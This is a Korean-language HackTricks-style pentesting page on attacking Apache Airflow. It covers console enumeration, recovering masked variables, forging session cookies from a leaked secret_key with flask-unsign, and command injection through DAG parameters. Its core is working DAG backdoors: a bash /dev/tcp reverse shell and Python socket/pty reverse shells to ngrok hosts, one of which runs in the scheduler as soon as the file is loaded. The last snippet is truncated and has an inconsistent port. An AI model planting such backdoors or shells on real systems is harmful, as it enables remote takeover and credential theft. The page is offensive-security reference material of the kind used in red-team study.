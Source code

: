 # Apache Airflow 보안

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로부터 영웅까지 AWS 해킹 배우기**!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>

## 기본 정보

[**Apache Airflow**](https://airflow.apache.org)는 **데이터 파이프라인 또는 워크플로우를 조정하고 예약하는 플랫폼**으로 작동합니다. 데이터 파이프라인의 맥락에서 "조정"이란 다양한 소스에서 발생하는 복잡한 데이터 워크플로우를 배열, 조정 및 관리하는 프로세스를 의미합니다. 이러한 조정된 데이터 파이프라인의 주요 목적은 처리된 및 사용 가능한 데이터 세트를 제공하는 것입니다. 이러한 데이터 세트는 비즈니스 인텔리전스 도구, 데이터 과학 및 머신러닝 모델을 비롯한 다양한 응용 프로그램에서 널리 활용되며, 이는 대규모 데이터 응용 프로그램의 기능에 기초합니다.

기본적으로 Apache Airflow를 사용하면 **코드 실행을 일정 시간에 예약**할 수 있습니다.

## 로컬 랩

### Docker-Compose

[**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml)의 **도커-컴포즈 구성 파일을 사용하여** 완전한 아파치 에어플로우 도커 환경을 시작할 수 있습니다. (MacOS에서는 도커 VM에 적어도 6GB의 RAM을 할당해야 합니다).

### Minikube

Apache Airflow를 실행하는 **한 가지 쉬운 방법**은 **minikube로 실행**하는 것입니다:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Airflow 구성

Airflow는 구성에서 **민감한 정보**를 저장할 수 있거나 취약한 구성을 찾을 수 있습니다:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

Airflow를 공격하기 전에 **권한이 작동하는 방식**을 이해해야 합니다:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## 공격

### 웹 콘솔 열거

웹 콘솔에 **액세스**할 수 있다면 다음 정보 중 일부 또는 모두에 액세스할 수 있습니다:

* **변수** (사용자 지정 민감한 정보가 여기에 저장될 수 있음)
* **연결** (사용자 지정 민감한 정보가 여기에 저장될 수 있음)
* `http://<airflow>/connection/list/`에서 액세스
* [**구성**](./#airflow-configuration) (**`secret_key`** 및 비밀번호와 같은 민감한 정보가 여기에 저장될 수 있음)
* 사용자 및 역할 목록
* 각 DAG의 **코드** (흥미로운 정보가 포함될 수 있음)

### 변수 값 검색

변수는 Airflow에 저장되어 **DAG**가 그 값을 **액세스**할 수 있습니다. 다른 플랫폼의 비밀과 유사합니다. **충분한 권한**이 있다면 GUI에서 `http://<airflow>/variable/list/`에서 액세스할 수 있습니다.\
기본적으로 Airflow는 GUI에서 변수의 값을 표시하지만, [**이**](https://marclamberti.com/blog/variables-with-apache-airflow/)에 따르면 **GUI**에서 **변수의 값**이 **별표**로 표시될 수 있는 **변수 목록**을 설정할 수 있습니다.

![](<../../.gitbook/assets/image (164).png>)

그러나 이러한 **값**은 여전히 **CLI**(DB 액세스 필요), **임의의 DAG** 실행, **API**를 통한 변수 엔드포인트 액세스(활성화된 API 필요) 및 **심지어 GUI 자체**를 통해 **검색**하여 **검색**할 수 있습니다.\
GUI에서 이러한 값을 액세스하려면 액세스하려는 **변수**를 선택하고 **작업 -> 내보내기**를 클릭하면 됩니다.\
다른 방법은 **숨겨진 값**을 **검색 필터링**을 사용하여 **무차별 대입**하여 얻을 때까지 **검색**하는 것입니다:

![](<../../.gitbook/assets/image (152).png>)

### 권한 상승

**`expose_config`** 구성이 **True**로 설정된 경우 **사용자 역할** 및 **이상**에서 **웹에서 구성을 읽을 수 있습니다**. 이 구성에는 **`secret_key`**가 나타나며, 이는 해당 유효한 사용자가 **자체 서명된 쿠키를 생성하여 다른 사용자 계정을 표현**할 수 있음을 의미합니다.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### DAG 백도어 (Airflow 워커에서의 RCE)

만약 **DAG가 저장된 위치에 쓰기 액세스**가 있다면, **하나를 생성**하여 **리버스 셸을 보낼 수 있습니다.**\
이 리버스 셸은 **airflow 워커 컨테이너 내에서 실행**될 것입니다:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### DAG 백도어 (Airflow 스케줄러에서의 RCE)

만약 무언가를 **코드의 루트에서 실행하도록 설정**하면, 현재 작성 시점에서, DAG 폴더 내에 넣은 후 **몇 초 후에 스케줄러에 의해 실행**될 것입니다.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### DAG 생성

만약 **DAG 클러스터 내부의 기기를 침투**한다면, `dags/` 폴더에 새로운 **DAG 스크립트**를 생성할 수 있고, 이는 DAG 클러스터 내의 다른 기기들에 **복제될 것**입니다.

### DAG 코드 삽입

GUI에서 DAG를 실행할 때 **인수를 전달**할 수 있습니다.\
따라서, DAG가 올바르게 작성되지 않은 경우 **Command Injection에 취약**할 수 있습니다.\
이것이 이 CVE에서 발생한 사례입니다: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

**DAGs에서 명령 삽입을 찾기 시작하려면** 알아야 할 것은 **매개변수**가 **코드**로 **`dag_run.conf.get("param_name")`**로 **액세스**된다는 것입니다.

또한, **변수**에서도 동일한 취약점이 발생할 수 있습니다 (충분한 권한이 있다면 GUI에서 **변수의 값을 제어**할 수 있음에 유의하십시오). 변수는 **다음과 같이 액세스**됩니다:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
만약 이들이 예를들어 bash 명령어 안에서 사용된다면, command injection을 수행할 수 있습니다.

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)로부터 AWS 해킹을 제로부터 전문가까지 배우세요</strong></a><strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나 HackTricks를 PDF로 다운로드하길 원한다면** [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 우리의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f)이나 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 당신의 해킹 트릭을 공유하세요.

</details>
